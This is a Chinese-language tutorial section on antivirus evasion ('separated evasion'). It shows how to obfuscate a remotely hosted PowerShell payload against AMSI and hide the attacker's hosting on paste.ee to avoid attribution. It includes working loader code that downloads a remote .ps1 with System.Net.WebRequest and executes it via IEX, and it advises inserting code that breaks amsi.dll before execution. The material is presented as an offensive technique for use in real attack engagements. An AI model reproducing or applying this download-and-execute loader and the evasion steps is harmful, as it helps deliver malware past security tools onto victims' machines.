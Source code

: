 # 0x03.分离免杀:抛弃 net webclient 远程加载方式（一）

## 首先我们需要对远程托管的Powershell样本进行免杀处理，然后在客户端用PowerShell脚本命令去读取远程托管的样本，并用IEX执行

## 这边用Stageless生成一个体积较大的powershell样本，因为样本是远程托管的，所以体积越大越好，这样混淆手法越丰富，发挥空间也越大就越难被检测出来（这边生成的体积大约是300-400Kb）
![image](https://user-images.githubusercontent.com/89376703/155830293-e173c15f-da7e-468e-8614-bb5deff12f35.png)

![image](https://user-images.githubusercontent.com/89376703/155830356-7b0bb5fb-7588-4520-802a-23d141a2f0f5.png)


## 对样本进行base64加密并放入字符串变量，写好解密公式,尽可能用Replace函数去替换变量中字符串以此规避AMSI的字符串特征扫描
![image](https://user-images.githubusercontent.com/89376703/155835164-46a06cde-a603-4448-9c40-ee217c2ebb79.png)

## 当然你还可以 加一些破坏amsi.dll的代码、进行异或加密解密或者是一些无用的混淆代码

# 远程加载代码：抛弃net webclient的方式
## 这里采用.net中的webrequest去请求远程恶意样本内容、读取样本、并执行样本。其实加载原理都是用IEX去执行远程的样本内容，大同小异，这边只是修改了一些特征，这里执行的前提是远程加载的powershell样本也得免杀，我们通常会将样本放置在网页可以访问的web服务器上，但是这同时也带来了风险，因为有些高级防病毒软件会标记一些恶意的公网IP（比如说卡巴斯基、小红伞），如果你将样本托管GitHub，虽然虽不会被防病毒标记，但是在实战攻防中非常容易就被蓝队溯源出个人信息，这边推荐一个可以在公网上挂起文本并且合法的网站https://paste.ee/  


```

$webreq = [System.Net.WebRequest]::Create(‘0.0.0.0/1.ps1’)
$resp=$webreq.GetResponse()
$respstream=$resp.GetResponseStream()
$reader=[System.IO.StreamReader]::new($respstream)
$content=$reader.ReadToEnd()
IEX($content)

```

## 我们可以用replace函数添加一些符号或者数字去混淆、替换暴露出来的IP地址
![image](https://user-images.githubusercontent.com/89376703/155734700-cc2a1aa8-9f42-4744-9e3f-842d0687347c.png)

## 当然有IEX的地方amsi.dll肯定会重点扫描，你必须在IEX执行之前就破坏它，因此这里可以在$content=$reader.ReadToEnd()和IEX($content)插入破坏amsi.dll的代码。
## 注意:(这里远程托管的PowerShell样本必须免杀AMSI，否则加载后一分钟左右会报毒)
![image](https://user-images.githubusercontent.com/89376703/155734863-2274eb70-a3ca-4000-bd89-bbce4eab3949.png)
